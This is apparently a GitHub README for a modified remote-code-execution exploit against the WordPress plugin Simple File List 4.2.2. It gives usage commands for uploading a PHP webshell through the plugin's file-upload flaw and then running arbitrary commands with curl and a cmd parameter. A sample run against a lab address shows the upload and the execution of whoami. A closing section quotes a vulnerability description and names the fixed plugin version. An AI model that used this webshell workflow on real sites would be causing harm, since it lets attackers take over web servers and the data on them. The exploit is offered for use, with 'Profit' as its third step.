 # Wordpress-Plugin-Simple-File-List-4.2.2---Remote-Code-Execution
Modified version of original exploit by coiffeur to add a php webshell for vulnerable Wordpress plugin: Simple File List 4.2.2

## Usage
1. Uploading the webshell

```bash
python exploit.py <url>
```
2. Execute RCE via uploaded webshell via GET request on target

```bash
curl <given url path to webshell>?cmd=<command to run on target>
```

3. Profit

## Example

```bash
└─$ python my_exploit.py http://192.168.229.105                                        
[ ] File 2383.png
[ ] File uploaded at http://192.168.229.105/wp-content/uploads/simple-file-list/2383.png
[ ] File moved to http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php
[+] Exploit seem to work.
[+] GET request for RCE via php webshell: http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php?cmd=<command to run on target>
                                                                                                                                                                                                                                             
....                                                                                                                                                                                                                                             
└─$ curl http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php?cmd=whoami
http
                                                       
```

## Exploit Details:

From https://www.acunetix.com/vulnerabilities/web/wordpress-plugin-simple-file-list-arbitrary-file-upload-4-2-2/

*WordPress Plugin Simple File List is prone to a vulnerability that lets attackers upload arbitrary files because the application fails to properly verify user-supplied input. An attacker can exploit this vulnerability to upload arbitrary code and run it in the context of the webserver process. This may facilitate unauthorized access or privilege escalation; other attacks are also possible. WordPress Plugin Simple File List version 4.2.2 is vulnerable; prior versions may also be affected.*

## Remediation

Update to plugin version 4.2.6 or latest.
